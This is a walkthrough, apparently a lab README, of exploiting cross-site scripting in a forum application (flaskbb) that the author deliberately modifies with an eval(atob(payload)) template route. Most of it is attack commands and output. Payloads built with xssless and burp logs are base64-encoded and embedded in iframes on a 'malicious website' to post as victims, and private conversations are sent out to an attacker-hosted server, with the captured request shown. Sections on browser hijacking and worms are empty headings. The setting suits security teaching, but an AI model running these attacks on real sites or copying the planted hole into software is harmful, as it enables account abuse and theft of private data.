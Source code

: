 Attacks
=======
Given a vulnerable application, we will try to develop some realistic attack scenarios. The focus is really not on triggering the XSS, but rather demonstrating ways to fully exploit it.
First we will setup a vulnerable application, then propose 3 different attacks :

    - execute actions on behalf of user
    - steal private information
    - Man In the Browser attack : interactive session hijacking, keylogger, browser exploits...
        
I. Setup the vulnerable application : a forum.
----------------------------------------------
In an attempt to be as realistic as possible, we decided to start with a real full-fledged application. We choose flaskbb[0], a forum developped in python using flask.

First step is to add our extra XSS "feature". We kept it simple by adding a new route to the project, where you can provide base64-encoded javascript to be executed. For example, executing "alert(1)" will look like this :

    localhost:8080/xss/YWxlcnQoMSkK

The base64 is a handy way to avoid conflicts between our payloads and flask's route matching rules, and more important allows us to bypass flask's parameters sanitizing before template generation. It will also work around any protection from the browser. Implementation steps are provided here[1]

Bonus : flaskbb is kind enough to come in the dev version with a test function to populate it with dummy users, topics and posts !

II. Post a message on behalf of a user.
---------------------------------------
First, let's introduce two tools that we will use : 

    burp[2] : an http proxy, often used in web penetration tests because it is awesome. We will just scratch the surface here, using it to log our http traffic.
    xssless[3] : a python script to generate XSS payloads from burp's logs. Best part is that it takes care of crsf tokens (nonces) !

The procedure is as follow : 

    1) log in with a user we control.
    2) start burp's interception
    3) post a new message.
    4) export burp's logs
    5) list the csrf tokens
    6) run xssless
    7) modify the payload with our malicious message
    8) craft our exploit
    9) expose targeted users to our exploit

Steps 1-4 I won't describe.

Step 5 : In the requests that burp intercepted, we look for any parameter that might be a csrf token. It's usually obvious, and it certainly is here.

    echo 'csrf_token' > params

Step 6 : Xssless is nice because we don't even have to have a deep look into what's going on. We could probably skip some requests, but we know that repoducing step by step what we recorded will work. We just need to tell it which parameters to adapt dynamically.

    python2 ~/secu/xssless/xssless.py -s -p params ../burp-logs/post-topic.burp > post-topic.js

Step 7 : Now you can edit the payload to replace the title or content of the post you want. 

    grep content post-topic.js
        [...] &title=I+think&content=I%27ve+been+hacked+%3A%28 [...]

Just don't forget to url-encode your texts.

Step 8 : At this point we should run our payload through a js minifyer. Here we won't, for the sake of simplicity. To have a working exploit we need however the base64 of our payload, and to remove the script tag :
    
    grep -v script post-topic.js | base64 -w0 > post-topic.b64

Step 9 : Now, all we have to do is put it somewhere on internet and bring authenticated users of our forum to visit it.

    echo "<iframe src='http://localhost:8080/xss/$(cat payloads/post-topic.b64)'></iframe>" > malicious-website/post-topic.html
    cd malicious-website && python3 -m http.server 1337

Step 10 : profit !  [[Images ?]]

III. Read a user's private conversations.
-----------------------------------------
Of course, like any exploit, this one is dirty as heck. But hey, it kind of works.

    base64 -w0 read-private.js > read-private.b64

    echo "<iframe src='http://localhost:8080/xss/$(cat payloads/read-private.b64)'></iframe>" > malicious-website/read-private.html
    cd malicious-website && python3 -m http.server 1337

When someone visits localhost:1337/read-private.html :

    "GET /%5B%0A%20%20%7B%0A%20%20%20%20%22author%22%3A%20%22test1%22%2C%0A%20%20%20%20%22title%22%3A%20%22%20Private%20conversation%20is%20private%20%22%2C%0A%20%20%20%20%22content%22%3A%20%22%20Or%20is%20it%20%3F%20%22%0A%20%20%7D%2C%0A%20%20%7B%0A%20%20%20%20%22author%22%3A%20%22test3%22%2C%0A%20%20%20%20%22title%22%3A%20%22%20Another%20%22%2C%0A%20%20%20%20%22content%22%3A%20%22%20%E2%80%9Cprivate%E2%80%9D%20conversation%20%22%0A%20%20%7D%2C%0A%20%20%7B%0A%20%20%20%20%22author%22%3A%20%22test3%22%2C%0A%20%20%20%20%22title%22%3A%20%22%20last%20%22%2C%0A%20%20%20%20%22content%22%3A%20%22%20of%20thoses%20%22%0A%20%20%7D%0A%5D HTTP/1.1" 404 -

    >> rcv="%5B%0...7D%0A%5D"
    >> python2 -c "from urllib import unquote; print unquote('$rcv');"
        [
          {
            "author": "test1",
            "title": " Private conversation is private ",
            "content": " Or is it ? "
          },
          {
            "author": "test3",
            "title": " Another ",
            "content": " “private” conversation "
          },
          {
            "author": "test3",
            "title": " last ",
            "content": " of thoses "
          }
        ]


IV. Steal a user's password, and beyond ! Man In the Browser.
-------------------------------------------------------------

V. Going further.
-----------------
    xssless : worms !

Refs
----
    [0] https://github.com/sh4nks/flaskbb
    [1] The following modifications have been made to flaskbb[0] :
            forum/views.py (l35-66)
                @forum.route("/xss/<payload>")
                [...]
                return( [...],
                    payload=payload)

            templates/forum/index.html (l4)
                <script>eval(atob("{{ payload }}"))</script>
        Also, because of a bug I removed thoses lines :
            templates/forum/topic.html
                {% if topic.first_post_id == post.id %}
                    {% if current_user|delete_topic(topic.first_post.user_id, topic.forum) %}
                    <a href="{{ url_for('forum.delete_topic', topic_id=topic.id, slug=topic.slug) }}">Delete</a> |
                    {% endif %}
                {% else %}
                    {% if current_user|delete_post(post.user_id, topic.forum) %}
                    <a href="{{ url_for('forum.delete_post', post_id=post.id) }}">Delete</a> |
                    {% endif %}
                {% endif %}
        and didn't investigate any further...
    [2] http://portswigger.net/burp/
    [3] https://github.com/mandatoryprogrammer/xssless
